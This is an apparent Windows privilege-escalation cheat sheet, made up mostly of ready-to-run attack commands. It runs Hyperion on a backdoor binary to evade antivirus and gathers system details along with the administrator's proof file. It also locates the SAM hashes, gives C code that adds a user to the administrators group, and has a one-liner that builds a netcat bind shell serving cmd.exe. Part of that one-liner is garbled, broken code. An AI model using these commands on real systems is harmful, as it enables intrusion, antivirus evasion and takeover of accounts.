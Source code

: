 AV bypass

Generating a mutated binary to bypass antiviruses

$ wine hyperion.exe ../backdoor.exe ../backdoor\_mutation.exe

Print proof

$ echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"

Access Check

You will probably need to accept the eula first:

$ accesschk.exe /accepteula

Windows hashes

NTLM and LM passwords are located in the SAM file in \*\*C:\\\\Windows\\SYSTEM32\\CONFIG\*\*

LAN Manager (LM): Windows XP and prior use LAN manager protocol. Uses DES but the key space is small (only uppercase, not salted, 14 chars or padded to 14).

NTLM/NTLM2: It does not split the password, also stored in uppercase

Kerberos: Default protocol for active directory envs.

PoCs

Add user to administrator group

#include <stdlib.h>

int main ()

{

int i;

i = system("net localgroup administrators theusername /add");

return 0;

}

i686-w64-mingw32-gcc windows-exp.c -lws2\_32 -o exp.exe

Run an arbitrary command:

echo -e '#include <stdio.h>\n#include <smain () {\nsystem("C:\\Users\\Administrator\\Desktop\\nc -lvp 4313 -e cmd.exe");\nreturn(0);\n}'> poc.c

new Highlighter().run(document); (function(i,s,o,g,r,a,m){i\['GoogleAnalyticsObject'\]=r;i\[r\]=i\[r\]||function(){ (i\[r\].q=i\[r\].q||\[\]).push(arguments)},i\[r\].l=1\\*new Date();a=s.createElement(o), m = s.getElementsByTagName(o)\[0\];a.async=1;a.src=g;m.parentNode.insertBefore(a,m) })(window,document,'script','https://www.google-analytics.com/analytics.js','ga'); ga('create', 'UA-106217827-1', 'auto'); ga('send', 'pageview');

